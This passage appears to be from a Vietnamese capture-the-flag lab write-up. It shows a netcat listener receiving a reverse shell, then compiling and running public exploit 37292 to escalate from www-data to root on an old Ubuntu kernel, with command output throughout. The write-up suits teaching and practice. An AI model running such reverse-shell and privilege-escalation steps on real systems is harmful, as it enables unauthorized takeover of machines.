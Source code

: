 ```python
┌──(kali㉿kali)-[~/CVE-2020-14321]
└─$ nc -lnvp 9001                                     
listening on [any] 9001 ...
connect to [10.6.0.191] from (UNKNOWN) [10.10.165.144] 44411
$ id
id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
$ uname -a
uname -a
Linux ubuntu 3.13.0-32-generic #57-Ubuntu SMP Tue Jul 15 03:51:08 UTC 2014 x86_64 x86_64 x86_64 GNU/Linux
$ 
```

## Privilege escalation

Tiếp theo, cũng trong phần mô tả của task, tôi sẽ tải exploit 37292 về để đẩy nó lên máy remote và dùng gcc để complie nó.

```python
$ gcc 37292.c -o exploit
gcc 37292.c -o exploit
/bin/sh: 11: gcc: not found
```

Máy này không có gcc, vậy thì tôi sẽ thử dùng cc

```python
$ cc 37292.c -o exploit
cc 37292.c -o exploit
37292.c:94:1: warning: control may reach end of non-void function [-Wreturn-type]
}
^
37292.c:106:12: warning: implicit declaration of function 'unshare' is invalid in C99 [-Wimplicit-function-declaration]
        if(unshare(CLONE_NEWUSER) != 0)
           ^
37292.c:111:17: warning: implicit declaration of function 'clone' is invalid in C99 [-Wimplicit-function-declaration]
                clone(child_exec, child_stack + (1024*1024), clone_flags, NULL);
                ^
37292.c:117:13: warning: implicit declaration of function 'waitpid' is invalid in C99 [-Wimplicit-function-declaration]
            waitpid(pid, &status, 0);
            ^
37292.c:127:5: warning: implicit declaration of function 'wait' is invalid in C99 [-Wimplicit-function-declaration]
    wait(NULL);
    ^
5 warnings generated.
```

```python
$ ./exploit
./exploit
spawning threads
mount #1
mount #2
child threads done
/etc/ld.so.preload created
creating shared library
# id
id
uid=0(root) gid=0(root) groups=0(root),33(www-data)
# ls -la /root
ls -la /root
```
